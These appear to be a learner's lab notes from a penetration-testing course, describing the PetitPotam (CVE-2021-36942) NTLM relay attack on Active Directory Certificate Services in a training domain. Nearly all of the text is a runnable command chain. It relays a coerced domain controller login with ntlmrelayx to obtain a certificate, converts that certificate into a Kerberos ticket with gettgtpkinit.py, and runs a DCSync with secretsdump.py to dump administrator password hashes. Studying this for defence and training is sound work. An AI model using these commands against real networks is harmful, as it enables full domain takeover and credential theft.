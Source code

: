 ## Getting the SYSTEM Shell
- ![[Pasted image 20250813065702.png]]

# PetitPotam (MS-EFSRPC)
--- 
 - PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an **LSA spoofing vulnerability that was patched in August of 2021.**
 - The flaw **allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM** over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31).
 - This technique allows an unauthenticated attacker to take over a **Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use**.

## Starting ntlmrelayx.py
- `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController`

In **another window, we can run the tool [PetitPotam.py]**(https://github.com/topotam/PetitPotam)

## Running PetitPotam.py
- `python3 PetitPotam.py 172.16.5.225 172.16.5.5`
- ![[Pasted image 20250813070123.png]]

## Catching Base64 Encoded Certificate for DC01
- Back in our other window, **we will see a successful login request and obtain the base64 encoded certificate for the Domain Controller** if the attack is successful.
- ![[Pasted image 20250813070225.png]]

## Requesting a TGT Using gettgtpkinit.py
- Next, **we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.**
	- `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache`

## Setting the KRB5CCNAME Environment Variable
- `export KRB5CCNAME=dc01.ccache`

## Using Domain Controller TGT to DCSync
- We can then **use this TGT with `secretsdump.py` to perform a DCSync** and retrieve one or all of the NTLM password hashes for the domain.
- `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`
